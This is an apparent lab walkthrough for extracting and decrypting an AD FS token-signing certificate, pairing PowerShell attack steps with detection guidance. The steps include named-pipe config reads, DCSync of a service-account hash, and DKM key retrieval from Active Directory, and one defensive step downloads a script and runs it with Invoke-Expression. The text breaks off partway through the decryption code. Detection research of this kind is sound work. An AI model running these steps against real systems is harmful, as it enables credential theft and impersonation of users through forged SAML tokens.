










# Export Active Directory Federation Services (AD FS) Token Signing Certificate

Federation servers require token-signing certificates to prevent attackers from altering or counterfeiting security tokens to gain unauthorized access to Federated resources. 
The AD FS certificates (token signing and decryption) are stored in the AD FS database configuration and they are encrypted using Distributed Key Manager (DKM) APIs.

Distributed Key Manager (DKM) is a client-side functionality that uses a set of secret keys to encrypt and decrypt information. Only members of a specific security group in Active Directory Domain Services (AD DS) can access those keys in order to decrypt the data that is encrypted by DKM.

When the primary AD FS farm is configured, an AD container (AD FS DKM container) is created in the AD DS server and a DKM master key is stored as part of a contact AD object property in the DKM container. The AD FS DKM master key can then be used by the AD FS service to derive a symmetric key and decrypt AD FS certificates.

If a threat actor retrieves the AD FS DKM master key and decrypts AD FS token signing certificate, the certificate can be used to sign SAML tokens and impersonate users in a federated environment.

## Main Steps


 
1.	[Get AD FS configuration settings](#get-ad-fs-configuration-settings).
    * [Local Connection: Named Pipe](#local-connection-named-pipe)
    * [Remote Connection: AD FS Synchronization](#remote-connection-ad-fs-synchronization)
2.	[Get AD FS token signing certificate](#get-ad-fs-token-signing-certificate).
3.	[Get AD FS DKM Container Active Directory Path](#get-ad-fs-dkm-container-active-directory-path).
4.	[Get AD FS DKM encryption key from Active Directory](#get-ad-fs-dkm-encryption-key-from-active-directory).
    * [Local Connection: AD FS Service Account](#local-connection-ad-fs-service-account)
    * [Remote Connection: Domain Administrator](#remote-connection-domain-administrator)
5.	[Decrypt AD FS token signing certificate](#decrypt-ad-fs-token-signing-certificate).
6.	[Export AD FS token signing certificate](#export-ad-fs-token-signing-certificate).

Most of the steps from the following sections are code snippets extracted from a well-known open-source tool named [AADInternals](https://github.com/Gerenios/AADInternals) and developed by [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD).

## Get AD FS Configuration Settings
The AD FS configuration settings can be stored in either a Microsoft SQL server database or the Windows Internal Database (WID) feature that is included with Windows Server 2008, 2008 R2 and 2012. You can choose either one, but not both. For this lab environment, we use WID to store the AD FS configuration database.

A threat actor would first get the AD FS configuration settings to obtain sensitive information such as the AD FS certificates and information about the AD FS DKM container in Active Directory (AD). A threat actor could get the AD FS configuration settings either locally or remotely.

* [Local Connection: Named Pipe](#local-connection-named-pipe)
* [Remote Connection: AD FS Synchronization](#remote-connection-ad-fs-synchronization)

### Local Connection: Named Pipe
**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS Service Account
    * Services Running: Active Directory Federation Services (ADFSSRV)

**Get Database Connection String via WMI Class**

Locally, WID does not have its own management user interface (UI), but one could connect to it via a specific named pipe. This information can be obtained directly from the `ConfigurationDatabaseConnectionString` property of the `SecurityTokenService` class from the WMI ADFS namespace.

```PowerShell
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
$conn
```



**Connect to AD FS database and read configuration**

We can then use the connection string to connect to the AD FS database and read its configuration.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings
```



### Detect Local Connection: Azure Sentinel

**AD FS Local Named Pipe Connection Rule**
The connection to the AD FS database occurs via the following named pipe:

`\\.\pipe\microsoft##wid\tsql\query`

We could detect the local connection to the named pipe with `Sysmon Event ID 18 (Pipe Connected)` with the following detection and filter out potential false positives:

[AD FS Local Named Pipe Connection Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSKeyExportSysmon.yaml)

**Event Sample**:


### Remote Connection: AD FS Synchronization

Based on [recent research](https://o365blog.com/post/adfs/) by [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD), a threat actor could use [AD FS synchronization (Replication services)](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database#how-the-adfs-configuration-database-is-synchronized) and pretend to be a secondary federation server to retrieve the AD FS configuration settings remotely from the primary federation server. 

Legitimate secondary federation servers store a read-only copy of the AD FS configuration database and connect to and synchronize the data with the primary federation server in the AD FS farm by polling it at regular intervals to check whether data has changed. A threat actor could use SOAP messages (XML documents) to request/sync AD FS configuration settings over a Windows Communication Foundation (WFC) service named `Policy Store transfer Service` on the federation primary server. This service can be accessed via the following URL over HTTP: 
 
```
http://<AD FS Server Name>:80/adfs/services/policystoretransfer
```

**Preconditions**
* Endpoint: WORKSTATION6 
    * Authorization: Domain Administrator
    * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
* Endpoint: ADFS01
    * Authorization: AD FS Service Account
    * Services Running: Active Directory Federation Services (ADFSSRV)
    * Network Ports Open: 80

For this remote variation, we are going to use the following information:
* IP Address or FQDN of the AD FS server (ADFS01)
* NTHash of the AD FS service account
* SID of the AD FS service account 

**Log onto a domain joined workstation**
Connect to one of the domain joined workstations (WORKSTATION6) in the network via the [Azure Bastion service](../../2_deploy/_helper_docs/configureAADConnectADFS) as a domain admin account (pgustavo).

**Get Object GUID and SID of the AD FS Service Account**

Launch PowerShell as Administrator and use the ADSI Searcher to look for the AD FS service account object in the domain controller. 

```PowerShell
$AdfsServiceAccount = 'adfsadmin'
$AdfsAdmin = ([adsisearcher]"(&(ObjectClass=user)(samaccountname=$AdfsServiceAccount))").FindOne() 
$Object = New-Object PSObject -Property @{ 
    Samaccountname = ($AdfsAdmin.Properties).samaccountname 
    ObjectGuid  = ([guid]($AdfsAdmin.Properties).objectguid[0]).guid 
    ObjectSid   = (new-object System.Security.Principal.SecurityIdentifier ($AdfsAdmin.Properties).objectsid[0],0).Value 
}
$Object | Format-List
```


**Install AADInternals**

On the same elevated PowerShell session, run the following commands: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force 
Import-Module –Name AADInternals 
```

**Get NTHash of AD FS Service Account (Directory Replication Services)**

We now need to get the NTHash of the AD FS service account. AADInternals accomplishes this via Active Directory Replication Services (DRS) like a known technique known as DCSync. 

```PowerShell
$ObjectGuid = '5e1ede45-89cb-4ddc-b300-968484f7175b'
$ObjectSid = 'S-1-5-21-2490359158-13971675-3780420524-1103'
$Server = 'DC01.simulandlabs.com'
$cred = Get-Credential

Get-AADIntADUserNTHash –ObjectGuid $ObjectGuid –Credentials $creds –Server $Server -AsHex 
```


**Get AD FS Configuration Settings Remotely**

Finally, we can export the AD FS configuration settings remotely. 

```PowerShell
$NTHash = "2d89f51237b6072aa1f45183c67cbb36" 
$ObjectSid = "S-1-5-21-2490359158-13971675-3780420524-1103" 
$ADFSServer = "ADFS01.simulandlabs.com" 
$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $ObjectSid -Server $ADFSServer 
```


### Detect Remote Connection: Azure Sentinel 

**AD FS Remote Sync Connection (Sysmon)**

The replication channel used to connect to the AD FS server is over port 80. Therefore, we can monitor incoming network traffic to the AD FS server over HTTP with `Sysmon event id 3 (NetworkConnect)`. For an environment with only one server in the AD FS farm, it is rare to see incoming connections over standard HTTP port from workstations in the network. Use the following detection to monitor this activity. 

[AD FS Remote Sync Connection (Sysmon)](https://github.com/Azure/Azure-Sentinel/blob/15497fc6f46969a113929d6ec3f94c5c43499da5/Detections/SecurityEvent/ADFSRemoteSyncConnectionSysmon.yaml)


**AD FS Remote Sync Connection (AD FS Auditing)**

Another behavior that we could monitor is the authorization check enforced by the AD FS replication service on the federation server. We can use security events 412 and 501 from the AD FS auditing event provider to capture this behavior. These two events can be joined on the Instance ID value for additional context and to filter out other authentication events. 

[AD FS Remote Sync Connection (AD FS)](https://github.com/Azure/Azure-Sentinel/blob/15497fc6f46969a113929d6ec3f94c5c43499da5/Detections/SecurityEvent/ADFSRemoteSyncConnection.yaml)



### Detect Remote Connection: Microsoft Defender for Identity 

**Directory Replication Services (DRS)** 

The use of directory replication services is not used against the AD FS server for this technique, but it is an additional step taken by tools such as AADInternals to get the NTHash of the AD FS user account from the domain controller.

The Microsoft Defender for Identity sensor installed on the domain controller triggers an alert when this occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. 

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 


## Get AD FS token signing certificate
Now that we have the AD FS configuration settings, we can parse it and get the AD FS token signing certificate (Encrypted Blob). Make sure the variable `$settings` contains the AD FS configuration settings strings. Also, remember that this step would usually happen outside of the organization.

```PowerShell
[xml]$xml=$settings
$encPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$encPfxBytes | Format-Hex
```


## Get AD FS DKM Container Active Directory Path
Even though we were able to get the AD FS token signing certificate, we still need to decrypt it. As mentioned at the beginning of this document, the AD FS certificates are encrypted using Distributed Key Manager (DKM) APIs and the DKM master key used to derive the symmetric key to decrypt them is stored in the AD DS server.

The AD FS DKM key value is stored in the `ThumbnailPhoto` attribute of a contact AD object in the AD FS DKM container. Therefore, we first need to get the right path to the AD FS DKM container and specific DKM group. We can get this information from the AD FS configuration settings we obtained earlier.

```PowerShell
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
```



## Get AD FS DKM Encryption Key from Active Directory
With the right path to the AD FS DKM container and DKM group in the AD DS server, we have a few options to retrieve the DKM encryption key.

* [Local Connection: AD FS Service Account](#local-connection-ad-fs-service-account)
* [Remote Connection: Domain Administrator](#remote-connection-domain-administrator)

### Local Connection: AD FS Service Account
**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account
* Endpoint: DC01
    * Authorization: AD FS service account
    * Services Running: Lightweight Directory Access Protocol (LDAP)
    * Ports Open: 389

**LDAP Query with ThumbnailPhoto Attribute in Filter**

We can use LDAP and create a query filtering on specific objects with the `ThumbnailPhoto` attribute. We can then read the encryption key from the `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter='(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADUser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```


**LDAP Query Filtering on `CryptoPolicy` Object to then Access the Right Contact AD Object**

One could filter on the `CryptoPolicy` contact object inside of the AD FS DKM container and get the value of its `DisplayName` attribute. This attribute refers to the `l` attribute of the right AD contact object that contains the DKM master key value. The DKM key is stored in its `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```



## Detect LDAP Queries: Microsoft Defender for Identity

### LDAP Query with `ThumbnailPhoto` Property in Filter

When a threat actor sets the property `ThumbnailPhoto` as a filter in the LDAP search query, the MDI sensor in the domain controller triggers an alert of type `Active Directory attributes Reconnaissance using LDAP`.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on [Azure Advanced Threat Protection](https://simuland.atp.azure.com/).




## Detect LDAP Queries: Microsoft Defender for Endpoint

### LDAP Query with `ThumbnailPhoto` Property in Filter
Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor sets the property `ThumbnailPhoto` as a filter in the LDAP search query.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on [Microsoft Defender Security Center](https://login.microsoftonline.com/).
3.	Go to `Incidents`.


### LDAP Query with Indirect Access to `ThumbnailPhoto` Property
Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor still access the contact AD object holding the DKM key, but without specifying the `ThumbnailPhoto` attribute as part of the filter in the LDAP search query.


You might not get another alert in the management user interface (UI), but if you look for the `ADFS private key extraction attempt` alert ID (Unique to the tenant) in the advanced hunting query experience, you will see several of them for the same endpoint.

## Detect Access to AD Object: Azure Sentinel

### AD FS DKM Master Key Export
* Data Source: Windows Security Events
* Data Table: SecurityEvent

We can also audit the access request to the AD FS DKM contact AD object that holds the DKM master key in the AD DS server. This audit rule can be enabled by adding an Access Control Entry (ACE) to the System Access Control List (SACL) of the AD object in the domain controller. [A SACL is a type of access control list to log attempts to access a secured object](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists).

**Create Audit Rule**
1.	Connect to the Domain Controller (DC01) via Azure Bastion services as an Administrator.
2.	Open PowerShell console as an Administrator.
4.	Get the LDAP path of the AD FS DKM container that was obtained in the [Get AD FS DKM Container Active Directory Path](#get-ad-fs-dkm-container-active-directory-path) section. Use it to obtain the AD path of the AD FS DKM contact object that contains the AD FS DKM master key (Encryption key).

```PowerShell
$AdfsDKMPath = "LDAP://CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com"
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$AdfsDKMPath"
$results = $ADSISearcher.FindOne()
$results.Path
```



5.	Import Active Directory Module:

```PowerShell
Import-Module ActiveDirectory
```

6.	Import the project [Set-AuditRule](https://github.com/OTRF/Set-AuditRule) in GitHub as a PowerShell module to automate the process.

```PowerShell
$uri = 'https://raw.githubusercontent.com/OTRF/Set-AuditRule/master/Set-AuditRule.ps1' 
$RemoteFunction = Invoke-WebRequest $uri –UseBasicParsing 
Invoke-Expression $($RemoteFunction.Content)
```

7.	Create an `Audit` rule to audit any `Generic Read` requests to that AD object.

```PowerShell
$ADObjectPath = 'CN=8e8a005d-e8eb-4d71-8bfc-de5abf98d5b4,CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com'

Set-AuditRule -AdObjectPath "AD:\$ADObjectPath" -WellKnownSidType WorldSid -Rights GenericRead -InheritanceFlags None -AuditFlags Success -verbose
```


Once the audit rule is enabled, run any of the previous LDAP search queries from the `ADFS01` server to obtain the AD FS DKM master key. You will see the following `Windows Security Event ID 4662` in the Domain Controller:


Something to remember is that the XML representation of the event provides the GUID of the AD FS DKM container object and not the explicit path to the AD object. In our lab environment this `Object Name value` was `9736f74f-fd37-4b02-80e8-8120a72ad6c2`.


Use the following detection rule to explore this activity:

[ADFS DKM Master Key Export](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/MultipleDataSources/ADFS-DKM-MasterKey-Export.yaml)

### Remote Connection: Domain Administrator
**Preconditions**
* Endpoint: WORKSTATION6
    * Authorization: Domain Administrator
    * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
* Endpoint: DC01
    * Authorization: Domain Administrator
    * Services Running: Active Directory Replication

**Active Directory Replication Services with AADInternals**

Rather than requesting access to the contact AD object containing the DKM key directly, a threat actor could simply leverage [Active Directory Replication services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) and retrieve the AD object via replication. This approach bypasses detections that rely on audit rules monitoring the direct access attempt to the AD object. However, it requires the user to have the right high privileges to perform directory replication actions in the domain. 

1. Go back to the domain-joined endpoint (`WORKSTATION6`) where you authenticated previously as a domain administrator (`pgustavo`) to perform a DCSync technique.
2. Open PowerShell as Administrator
3. Get the LDAP path of the AD FS DKM container that was obtained in the [Get AD FS DKM Container Active Directory Path](#get-ad-fs-dkm-container-active-directory-path) section. Use it to obtain the `GUID` of the AD FS DKM contact object holding the AD FS DKM master key (Encryption key).

```PowerShell
$AdfsDKMPath = "LDAP://CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com"
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$AdfsDKMPath"
$results = $ADSISearcher.FindOne()
$AdfsContactObjectGuid = ([guid]($results.Properties).objectguid[0]).guid
$AdfsContactObjectGuid
```



6. Export the AD FS DKM master key value via directory replication services.

```PowerShell
$ObjectGuid = '9736f74f-fd37-4b02-80e8-8120a72ad6c2' 
$DC = 'DC01.simulandlabs.com' 
$cred = Get-Credential 
$Key = Export-AADIntADFSEncryptionKey -Server $DC -Credentials $cred -ObjectGuid $ObjectGuid 
[System.BitConverter]::ToString([byte[]]$key)
```


### Detect Remote Connection: Microsoft Defender for Identity 

**Directory Replication Services (DRS)** 

As mentioned before, the Microsoft Defender for Identity sensor installed on the domain controller triggers an alert when this behavior occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. Something to keep an eye on is the number of replication requests in the alert information. It went up from 4 to 10. 

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 


## Decrypt AD FS Token Signing Certificate
Now that we have the AD FS DKM key, we can use it to derive a symmetric key and decrypt the AD FS token signing certificate. We can use the following code snippet from AADInternals to do so.

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
